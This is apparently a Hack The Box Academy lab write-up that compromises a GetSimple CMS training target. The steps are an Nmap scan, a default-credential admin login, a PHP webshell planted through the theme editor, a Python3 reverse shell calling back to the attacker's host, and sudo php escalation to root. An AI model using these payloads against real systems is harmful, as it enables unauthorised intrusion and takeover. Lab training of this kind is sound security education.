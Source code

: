# Knowledge Check  

[Getting Started - Knowledge Check](https://academy.hackthebox.com/module/77/section/859)  

## Service Scanning  

>The `-sC` parameter to specify that Nmap scripts should be used to try and obtain more detailed information. 
>The `-sV` parameter instructs Nmap to perform a version scan.
>In this scan, Nmap will fingerprint services on the target system and identify the service protocol, application name, and version. The version scan is underpinned by a comprehensive database of over 1,000 service signatures.
>Finally, `-p-` tells Nmap that we want to scan all 65,535 TCP ports.
>[Service Scanning](https://academy.hackthebox.com/module/77/section/726)  

```
sudo nmap -sCV -A -O 10.129.42.249
```  

>NMAP Output  

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
|_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome to GetSimple! - gettingstarted
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin/
```  

## Web Enumeration  

>Open the target on port 80 site `http://10.129.42.249/` in Firefox browsers.  

![getting-started-web-enum](/images/getting-started-web-enum.PNG)  

>Add the DNS host name to `/etc/hosts`.

```
sudo vi /etc/hosts
```  

>Check content of `Robots.txt` file on target web application.

```
curl http://gettingstarted.htb/robots.txt
```

>Output confirm path `/admin`.  

>Grab web banners.  

```
curl -IL http://gettingstarted.htb/admin/index.php
```  

```
whatweb http://gettingstarted.htb/admin/index.php
```  

>Test `/admin` web path discovered from nmap scan.
>On admin login portal test default credentials `admin:admin` as username and password.

>Identified the version of web application as `GetSimple CMS 3.3.15`.

## Public Exploits  

>Searching for working exploit.  
>[Finding Public Exploits](https://academy.hackthebox.com/module/77/section/843) doing online research and examining the target services identified.  

>Using `searchsploit` on kali.

```
searchsploit GetSimple CMS 3.3
```  

>Google Search `getsimple cms rce` for Remote Code Execution exploits in GetSimple CMS.  

[GetSimple CMS v3.3.16 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51475)  

### MetaSploit

>Search msfconsole for exploits.

```
sudo msfconsole
search getsimple cms

use exploit/unix/webapp/get_simple_cms_upload_exec
```

>Failed to gain working exploit with MSFConsole. 

## Shells  

>Web Application Edit Theme  
>Enumerating the target application finding the Edit Theme is php code.
>Replace the theme with PHP webshell - [Types of Shells](https://academy.hackthebox.com/module/77/section/725)  

```
<?php system($_REQUEST["cmd"]); ?>
```

>Insert above into the theme editor code.

![get-simple-theme-edit-rce](/images/get-simple-theme-edit-rce.png)  

>Save the theme and go back to landing page to test webshell RCE.

![get-simple-webshell-rce](/images/get-simple-webshell-rce.png)  

>Webshell commands to enumerate target.  

```
http://gettingstarted.htb/?cmd=whoami
http://gettingstarted.htb/?cmd=which+python3
```

### Python3 Reverse Shell  

>Identified Python3 on target, and setting up for reverse shell.
>Netcat on port 443.

```
rlwrap nc -nvlp 443
```

>Send webshell command through burp proxy, to encode the Python3 Reverse Shell code.  

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.140",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![burp-proxy-encode-python3-revshell](images/burp-proxy-encode-python3-revshell.png)  

>Located the user level flag, `cat /home/mrb3n/user.txt`  

## Privilege Escalation  

>Obtained low privilege access to the target as non root/admin user.  

>[PrivEsc Checklists](https://academy.hackthebox.com/module/77/section/844):  

1. Enumeration Scripts
2. Kernel Exploits
3. Vulnerable Software
4. User Privileges/Permissions
5. Scheduled Tasks
6. Exposed Credentials
7. SSH Keys  

>Enumeration of the local target and user Privileges or Permissions.  

```
sudo -l
```  

>Output from sudo check.

```
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
```  

>Look for ways to exploit it to get a shell as the root user, using the [GTFObins resources](https://gtfobins.github.io/)  

>Sudo Exploit with [PHP privileges](https://gtfobins.github.io/gtfobins/php/#sudo)

```
CMD="/usr/bin/bash"
sudo php -r "system('$CMD');"
```

>Root privilege access obtained.

>located the root user flag file, `cat /root/root.txt`

## Appendix  

>No file transfer to the target was required to exploit or obtained privileges.

>[Transferring Files](https://academy.hackthebox.com/module/77/section/849)



